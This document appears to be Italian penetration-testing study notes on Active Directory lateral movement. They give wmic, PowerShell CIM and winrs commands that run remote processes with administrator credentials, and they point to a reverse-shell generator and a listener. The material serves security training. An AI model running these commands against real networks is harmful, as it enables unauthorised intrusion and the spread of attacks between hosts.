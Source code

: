# 23.1. Active Directory Lateral Movement Techniques

## 23.1.1. WMI and WinRM

**WMI**

La prima tecnica di _lateral movement_ si basa su _Windows Management Instrumentation_ (WMI), una feature object-oriented che facilita la task automation. WMI è capace di creare processi tramite il metodo _Create_ della classe _Win32_Process_. Comunica attraverso RPC sulla porta 135 e utilizza un range di porte grande per i dati di sessione.

Ci sono due modi per seguire l'attacco:
1) Tramite _wmic_ (DEPRECATO!)
2) Tramite _Powershell_

Per creare un processo su un target remoto attraverso WMI occorrono le credenziali di un membro del gruppo locale _Administrators_, il quale potrebbe essere anche un domain user. 

Utilizzo dell'utility _wmic_ per creare un processo sul sistema remoto:

```bash
wmic /node:$IP_TARGET /user:$USERNAME /password:$PASSWORD process call create "$COMMAND_NAME"

Esempio:

wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
```

Questo comando dovrebbe ritornare il pid del processo e valore di ritorno pari a 0 (che conferma la corretta creazione del processo).

Di seguito viene mostrato come utilizzare _Powershell_ per eseguire l'attacco.

Creazione di un oggetto _PSCredential_ in _PowerShell_:

```
$username = '$USERNAME';
$password = '$PASSWORD';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```

Creazione di una nuova _CimSession_:

```
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName $IP_TARGET -Credential $credential -SessionOption $Options
```

Payload:
- Utilizzare https://www.revshells.com/ per la generazione del payload.

```
$command = '$COMMAND_NAME';
```

![[payload.png]]

Creazione della sessione WMI attraverso _PowerShell_:

```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

Avvio di un listener sulla porta specificata nel payload.

**WinRM**

Anche WinRM può essere utilizzato per il remote host management. WinRM è la versione Microsoft del protocollo _WS-Management_ e scambia messaggi XML tramite HTTP e HTTPS. Utilizza la porta 5986 per il traffico HTTPS e la 5985 per HTTP.

Oltre alla sua implementazione in _PowerShell_, WinRM è implementato in diverse utility, come ad esempio _winrs_ (Windows Remote Shell).

Affinche WinRS funzioni, il domain user deve essere o all'interno del gruppo Administrators o del gruppo Remote Management Users sul host target.

Esecuzione di comandi remoti tramite WinRS:

```
winrs -r:$TARGET_HOST -u:$USERNAME -p:$PASSWORD  "$COMMAND"

Esempio:

winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
```

All'interno del comando è possibile inserire il payload precedentemente creato e avviare un listener sulla porta specificata.

Se si volesse utilizzare _Powershell_:

```
$username = '$USERNAME';
$password = '$PASSWORD';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

New-PSSession -ComputerName $TARGET_IP -Credential $credential
```

Per interagire con la sessione appena creata:

```
Enter-PSSession 1
```

## 23.1.2. PsExec





